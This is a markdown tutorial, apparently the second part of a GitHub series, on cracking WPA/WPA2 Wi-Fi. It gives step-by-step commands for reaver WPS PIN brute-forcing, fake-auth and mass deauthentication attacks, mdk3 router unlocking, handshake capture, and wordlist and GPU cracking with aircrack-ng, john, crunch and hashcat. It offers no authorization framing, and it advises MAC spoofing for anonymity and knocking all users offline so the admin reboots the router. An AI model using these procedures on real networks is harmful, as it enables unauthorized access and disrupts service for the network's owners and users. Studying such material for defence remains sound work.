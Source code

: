 # Wifi-Cracking (Part-2)  
 
 #### [ WPA/WPA2 CRACKING]
 ---


This is part-2 on wifi-cracking and in this writeup we will be discussing on WPA/WPA2 networks.

**NOTE: always check your wireless adapter mode is set to managed before connecting to network because you can't connect to network in monitor mode its only used for packet capture purpose and you can change your MAC Address before attack to increase anonmity and to protect your identity**

Most guaranteed attack to crack WPA/WPA2 is to use the tool **reaver** when WPS is enabled but It not works on all routers specially on new ones  it only works against **PBC auth** types  many of you loose hope in the case of routers cracking but keep patience and try to **debug** reaver output.


At first to know WPS enabled routers near you : Run

```bash
root@kali:~# wash -i wlan0

```
select the MAC Adress of target routers and paste after bssid field.

```bash
root@kali:~# reaver --bssid           --channel -i wlan0

```
If you are lucky it will be executed successfully but it will  take sometime to get pin (but if you get error) like this

```bash
[!]WARNING: Failed to associate with  5D:A8:6A:A9:4C:5I (ESSID: CRACKME)

```
If you are getting this error quit the program than simply split the bash screen and use **aireplay-ng** to associate with target to do fake authentication attack with the help of below command.

```bash
root@kali:~# aireplay-ng --fakeauth 100 -a { MAC Address of target router} -h {MAC Address of your wireless card} wlan0

```
> You can get the  MAC Address of your wireless card just by ifconfig wlano (it will be the unspec field)

The above command is doing a fake authentication attack to associate with target and i want a delay of 100 sec between association attempts but wait before you press  enter run your previous command with -A and than run this command.

```bash
root@kali:~# reaver --bssid           --channel -i wlan0 -A

```
(-A) helps to not associate with target you can see all available options with reaver by using **reaver --help**
by running the command you might get this thing in bash :

```bash
root@kali:~# reaver --bssid  5D:A8:6A:A9:4C:5I --channel 11 -i wlan0 -A


[+] Assciated with 5D:A8:6A:A9:4C:5I  (ESSID: CRACKME)
[+] 0.00% completed @ 2020-05-08 22:17:45 (0 seconds/pin)
[+] 0.00% completed @ 2020-05-08 22:17:45 (0 seconds/pin)

```
Our association problem is solved but we still are not able to get pin if you try some debugging with -VVV(Verbose mode ):

```bash
root@kali:~# reaver --bssid  5D:A8:6A:A9:4C:5I --channel 11 -i wlan0 -A -vvv --no-nacks

```
It will brute-force to get pin and may take some time to bypass the router.
Sometimes it's easy to deal WPS things because many people don't change there default pins which are easily crackable while doing this stuff sometimes you will face some routers get locked after some failed attempts  and it make take many hours to unlock or may be some days but we  can't wait for that long to crack it the best hack to deal this problem is deauthenticate all users from that router to a long period of time  and than admin have to restart the router because of the annoying behaviour of router.

```bash
root@kali:~# aireplay-ng --deauth 10000000000000000 -a { MAC Address of router } wlan0

```

The success rate of our deauthentication attack is high but there is always an alternate option **mdk3** it is the tool designed to exploit a number of weaknesses in 802.11 protocol (we can use it to remotely unlock the locked router )

```bash
root@kali:~# mdk3 --help

```
To see all available options and how to use it than simple run

```
root@kali:~# mdk3 a -a { MAC Address of router which is locked } -m

```
it mostly give successfull results on many router after this just run the reaver command to brute-force pin.

```
root@kali:~# reaver --bssid           --channel -i wlan0

```

---



##### If now WPS is disabled or if you tried everything and it doesn't work  you are left out with two more options.

- WORDLIST ATTACKS

- EVIL TWIN ATTACKS


So lets first talk about wordlist attack this is going to work on all WPA/WPA2 networks but it totally depends how strong your  **wordlist** and how quick your **machine** is .Issue with this attack is large wordlist is going to take huge space of your hardisk and if password is very hard to crack it may take 2-3 days or even a week.But don't worry that's why you are here I am going to tell you some efficient ways to do this attack.

So lets deal with first issue that large wordlist are going to take longer time and **aircrack-ng** does not save the progress.

First you will need to capture the  **handshake** file  and  need a wordlist to perform this attack.
You can find many wordlist online and even you can generate your own wordlist if you know some of characters of Password.

```bash
root@kali:~# airodump-ng wlan0

root@kali:~ airodump-ng --channel {channel no. of the selected wireless network} -w {name of captured file} --bssid {bssid no.} {name of wireless network}

```
e.g
```bash
root@kali:~# airodump-ng --channel 1  -- bssid  56:13:58:76:5B:55  --write handshake.cap wlan0

```

By running the first command get all networks bssid and channel and the run the second command to get handshake but handshake is generated only when the new client is connected to that so are you going to wait that long ? Obviously no run a deauthentication attack to disconnect a client and then when he tries to connect you will get a handshake.

After this,

```bash
root@kali:~# aircrack-ng handshake.cap -w { name of wordlist }

```

After this it will run to get the password but it will take some time and if you get frustrated and quit the program it and it will stop and if you try to run again it will restart. So takeover this we are going to use a classical tool **john the reaper**
and pipe it with **aircrack-ng**

```bash
root@kali:~# john --wordlist= { name of wordlist } --stdout | aircrack-ng -w - -b { MAC Address of target } handshake.cap

```
e.g

```bash
root@kali:~# john --wordlist=crack_wordlist --stdout --session=upc | aircrack-ng -w - -b 56:13:58:76:5B:55  handshake.cap

```

the above command before the pipe is outputing the wordlist with a session id and we are using the output wordlist to the second command after the pipe So the run command for some action and if you terminate the action you can restore it by the following command.

```bash
root@kali:~# john --restore=upc | aircrack-ng -w - -b 56:13:58:76:5B:55  handshake.cap

```
Now you can use **crunch** to generate wordlist if your familiar to crunch than it's okay otherwise feel free to see the entire manual for **crunch** by using  command *man crunch* command or see it online the general way to generate it is

```bash
root@kali:~# crunch 8 8 -o all.txt
Crunch will now generate the following amount of data 1879443581184 bytes
1792377 MB
1750 GB
1 TB
0 PB
Crunch will now generate the following number of files: 208827064547

```
So what do you think you have that much of space in your hardisk for that wordlist or you just need a  solution to  solve this, you can also combine the **aircrack-ng** with crunch with just omiting -o .

```bash
root@kali:~# crunch 8 8 | aircrack-ng  -b  56:13:58:76:5B:55 -w - handshake.cap

```

Here you get your job done with crunch please see crunch in details because you if you know some characters and spaces it help you a lot and increase the chance to crack WPA/WPA2 faster.

Let's combine all three concepts **john the reaper**, **crunch** and **aircrack-ng** to increase our cracking efficiency.
crunch  will generate the password jhon the reaper will save and restore the progress and aircrack will do it's cracking part.

```bash
root@kali:~# crunch 8 8 | john --stdin --session=session1 --stdout | aircrack-ng  -b  56:13:58:76:5B:55 -w - handshake.cap

```

Here you got your job done with some perfection and to restore this process

```bash
root@kali:~# crunch 8 8 | john --restore=session1 | aircrack-ng  -b  56:13:58:76:5B:55 -w - handshake.cap

```
---

Using all this methods is okay but you can boost the process if you use your **GPU** because it is designed to carry out repetitive task fasts which means its more efficient than CPU and cracking hashes is a repetitive task.

Condition to do this your system must have a powerful GPU or good graphics card  and we are going to use **hashcat** and you can download it from from [here](https://hashcat.net/hashcat/) and we are using this tool because can't us
aircrack-ng does not allow graphics card in cracking.

**NOTE: Use a WINDOWS machine because mosts GPU's have driver for windows and its heck disturbing to download driver for linux system if you can download it in your linux system you are free to do it and if you are using in WINDOWS first download the driver for your system whatever you have  Nvdia or AMD**


After downloading and extracting hashcat you need to convert your handshake file from .cap extension to .hccapx  extension
which is the extension supported by hashcat you can convert it from [here](https://hashcat.net/cap2hccapx/), (in ESSID field just enter name of the network) after converting download it keep your wordlist and handshake.hccapx file in same directory where you downloaded hashcat.

open your windows terminal

```bash
c:\user\error> cd/
(go to the root directory)

c:\> dir
(to list all files and go to hashcat)



c:\>cd hashcat-3.6.0
c:\hashcat-3.6.0> dir
(you will see 32-bit and 64-bit run which compatible to your device )

c:\hashcat-3.6.0>hashcat64.exe --help
(it will list all possible ways to run it )

c:\hashcat-3.6.0>hashcat64.exe -I
(it will list all possible device CPU AND GPU to perform attack)

c:\hashcat-3.6.0> hashcat.exe -m 2500 -d 1 handshake.hccapx wordlist.txt


```
> (-m 2500 specify which hash your are going to crack -d 1 is use to specify use GPU which listed first when we -I command)
You can use p and r to pause and resume the process you will see how fast it works

Your JOB will be done very fast as compare to CPU.

Lint to [Part-3](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP3.md)

**AUTHOR** - [Error](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP2.md)
